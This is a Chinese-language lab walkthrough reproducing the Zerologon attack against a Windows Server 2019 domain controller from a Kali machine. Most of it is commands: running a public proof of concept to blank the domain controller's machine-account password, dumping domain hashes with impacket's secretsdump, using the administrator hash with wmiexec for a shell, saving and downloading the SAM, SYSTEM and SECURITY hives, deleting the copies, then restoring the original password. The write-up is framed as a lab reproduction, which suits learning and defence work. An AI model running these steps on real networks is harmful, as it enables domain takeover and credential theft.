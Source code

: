 域环境搭建参见：https://github.com/ybdt/post-hub/blob/main/7-横向移动/2021_07_03_域环境搭建/readme.md

受害机器：Win2019_x64_zh-cn  
攻击机器：kali  

```
git clone https://github.com/risksense/zerologon
git clone https://github.com/SecureAuthCorp/impacket
cd ./impacket && pip3 install .
```

复现过程共5个步骤

步骤1：在第一个终端下置空域控的机器用户密码：
```
cd ./zerologon
python3 ./set_empty_pw.py WIN-184MQ8D0KOO 192.168.202.138
其中WIN-184MQ8D0KOO为域控的计算机名，192.168.202.138为域控的ip地址
定位域控可通过命令：net time /domain
```
![image](./pic/1.png)

步骤2：在第二个终端下提取域控中存储的密码哈希：
```
cd ./impacket/examples/
python3 ./secretsdump.py -no-pass -just-dc ybdt.best/WIN-184MQ8D0KOO\$@192.168.202.138
这里要注意$前有一个\，否则会报错名字或服务未知
```
![image](./pic/2.png)
此时可以试着解密一下administrator的hash，如不能解密，可尝试后续攻击

步骤3：在第三个终端下使用提取的administrator的密码哈希执行命令，拿到伪交互式shell：
```
cd ./impacket/examples/
python3 ./wmiexec.py ybdt.best/administrator@192.168.202.138 -hashes :a87f3a337d********f9416be5787d86

reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
lget sam.save
lget security.save
lget sysetm.save
del sam.save
del security.save
del system.save
这里要注意，之前的文章都是get sam.save，但我这里查看帮助发现，命令变为了lget
```
![image](./pic/3.png)

步骤4：在第四个终端下提取原机器用户的密码哈希
```
python3 secretsdump.py -sam sam.save -system system.save -security security.save local
```
![image](./pic/4.png)

步骤5：在第五个终端下恢复原机器用户的密码哈希
```
python3 ./reinstall_original_pw.py WIN-184MQ8D0KOO 192.168.202.138 cdd6d0988b04bd41da9de139f571b4ec
```
![image](./pic/5.png)  
再次执行密码提取则会失败  
![image](./pic/6.png)  

参考链接：  
http://www.saferoad.cc/notes/661.html  
https://www.anquanke.com/post/id/219374
